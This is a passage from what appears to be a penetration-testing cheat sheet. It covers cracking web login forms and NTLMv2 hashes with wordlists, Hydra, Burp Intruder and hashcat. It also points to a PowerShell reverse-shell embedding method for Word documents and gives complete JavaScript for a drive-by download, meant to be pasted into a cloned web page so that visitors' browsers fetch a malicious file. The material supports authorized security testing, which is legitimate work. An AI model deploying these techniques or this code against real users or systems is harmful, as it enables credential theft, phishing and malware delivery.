 Such keywords can be a company name, abbreviations, words that describe your target's services, products, etc.

After you generate the wordlist, use it with tools such as [Hydra](#hydra), [Burp Suite Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder/using), etc. to crack web login forms. P.S. Hydra can attack authentication mechanisms on all kinds of services/ports.

If strong password policy is enforced, passwords usually start with one capitalized word followed by a few digits and one special character at the end (e.g. Password123!).

You can also use the generated wordlist with [hashcat](#hashcat), e.g. to crack NTLMv2 hashes that you have collected using LLMNR responder, etc.

## 6. Social Engineering

Find out how to embed a PowerShell script into an MS Word document from my other [project](https://github.com/ivan-sincek/powershell-reverse-tcp#ms-word).

### Drive-by Download

To force users to download a malicious file, copy and paste this JavaScript code block on a cloned web page:

```javascript
function download(url, type, name, method) {
	var req = new XMLHttpRequest();
	req.open(method, url, true);
	req.responseType = 'blob';
	req.onload = function() {
		var blob = new Blob([req.response], { type: type })
		var isIE = false || !!document.documentMode;
		if (isIE) {
			// IE doesn't allow using a blob object directly as link
			// instead it is necessary to use msSaveOrOpenBlob()
			if (window.navigator && window.navigator.msSaveOrOpenBlob) {
				window.navigator.msSaveOrOpenBlob(blob, name);
			}
		} else {
			var anchor = document.createElement('a');
			anchor.href = window.URL.createObjectURL(blob);
			anchor.download = name;
			anchor.click();
			// in Firefox it is necessary to delay revoking the ObjectURL
			setTimeout(function() {
				window.URL.revokeObjectURL(anchor);
				anchor.remove();
			}, 250);
		}
	};
	req.send();
}
// specify your file here, use only an absolute URL
download('http://localhost/files/pentest.pdf', 'application/pdf', 'pentest.pdf', 'GET');
// download('http://localhost/files/pentest.docx', 'plain/txt', 'pentest.docx', 'GET');
```
